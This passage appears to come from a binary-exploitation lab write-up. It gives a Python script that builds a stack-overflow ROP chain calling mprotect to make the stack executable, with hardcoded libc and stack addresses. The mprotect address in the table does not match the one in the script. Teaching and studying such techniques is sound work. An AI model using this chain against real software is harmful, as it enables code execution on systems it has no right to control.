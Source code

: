 So we have almost everything ready now.

```1
            0x7ffff7dac000 -- libc_base address
rdi --      0x7ffffffde000 -- base address of stack
rdi --      0x7ffff7feaba0 -- address of mprotect in libc
rdx --      (7)            -- prot value 
            0x7ffff7dee280 -- address of exit() 
```

‍

Here we go:

```python
import struct

libc_base = 0x7ffff7dac000
payload = b"A" * 264                                        # Overflow with 264 'A' characters
payload += struct.pack("<Q",libc_base + 0x0000000000028635) # ret address for stack allignment

payload += struct.pack("<Q",libc_base + 0x000000000002a205) # pop rdi; ret
payload += struct.pack("<Q", 0x7ffffffde000)                # base address of stack
payload += struct.pack("<Q",libc_base + 0x000000000002bb39) # pop rsi; ret
payload += struct.pack("<Q", 0x0101010)                     # length
payload += struct.pack("<Q",libc_base + 0x000000000010d37d) # pop rdx; ret
payload += struct.pack("<Q", 0x7)                           # prot value: 7
payload += struct.pack("<Q", 0x7ffff7eb9200)                # address of mprotect
payload += struct.pack("<Q", 0x7ffff7dee280)                # address of exit function


# print(payload)
with open("input.txt", "wb") as f:
    f.write(payload)

print("Payload written to input.txt. Run with: `./vulnerable_program < input.txt`")


```

‍

![image](assets/image-20250328232254-n3z0emy.png)

![image](assets/image-20250328232947-t1sx40l.png)

![image](assets/image-20250328234004-gp3v4qh.png)

![image](assets/image-20250328234912-nvaxjot.png)

![image](assets/image-20250328235500-ypfr86i.png)

![image](assets/image-20250329001312-74eci4u.png)

![image](assets/image-20250329001504-2st3mbr.png)

Finally , The stack is executable now.
